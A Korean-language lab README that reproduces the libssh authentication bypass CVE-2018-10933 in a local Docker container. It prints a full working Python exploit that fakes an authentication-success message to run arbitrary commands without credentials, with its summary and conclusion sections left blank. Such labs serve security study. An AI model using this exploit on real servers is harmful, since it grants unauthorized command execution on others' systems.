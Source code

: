 # libssh Authentication Bypass Vulnerability(CVE-2018-10933)


**Contributors**
-   [황현택(@hhtboy)](https://github.com/hhtboy)
-   [진규정(@gyutrange)](https://github.com/gyutrange)
-   [이름입력(@hong)](깃허브 주소 입력)

<br/>

### 요약

-   

<br/>

### 환경 구성 및 실행

#### 1. 환경 구성

아래 명령어로 docker 컨테이너 환경을 실행합니다.

```
docker compose up -d
```
<br>

아래 명령어로 컨테이너가 실행중인지 확인합니다.
```
docker ps
```
<br>
![](image/docker_ps.png) 
<br>
위와 같이 보인다면 테스트 환경이 정상적으로 구축된것입니다.

#### 2. 정상적인 libssh 시도

컨테이너에는 리눅스 서버가 돌아가고 있습니다.
서버에 접속하기 위해 ssh 연결을 시도합니다.
<br>
계정 : myuser / 비밀번호 : mypassword
<br>
아래 명령어로 ssh 접속을 할 수 있습니다.
(포트번호는 docker-compose파일에 따라 변경합니다.)
```
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p 2222 myuser@localhost
```
<br><br>
비밀번호를 입력해서 정상적인 방법으로 접근이 되는 것을 확인합니다.
![](image/legal_connection.png)

만약 `no matching key exchange method found` 관련 문제가 발생한다면, ~/.ssh/config 파일을 아래와 같이 수정합니다.
```
Host 127.0.0.1
HostKeyAlgorithms=+ssh-rsa
```
![](image/ssh_config.png) 



#### 3. libssh Authentication Bypass 취약점을 이용한 비정상 접근

아래와 같은 `exploit.py`파일을 생성합니다.
```
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```
<br><br>

아래 명령어로 별다른 인증 없이 서버로 명령을 보내고 결과를 받아볼 수 있습니다.
<br/>

`python3 exploit.py 127.0.0.1 [docker에서 설정한 포트] "[실행되길 원하는 명령어]"`
<br/>

```
python3 exploit.py 127.0.0.1 2222 "id"
```

<br/>

### 결과

명령어로 id를 주니 명령어가 실행된 결과가 마지막에 나타납니다.
![](image/result1.png)
<br><br>
명령어로 홈 디렉토리에 새로운 디렉토리를 생성해보았습니다.
![](image/result2.png)
<br><br>
정상적인 방법으로 서버에 접속해서 생성된 디렉토리를 확인할 수 있습니다.
![](image/result3.png)

<br/>

### 정리

-   
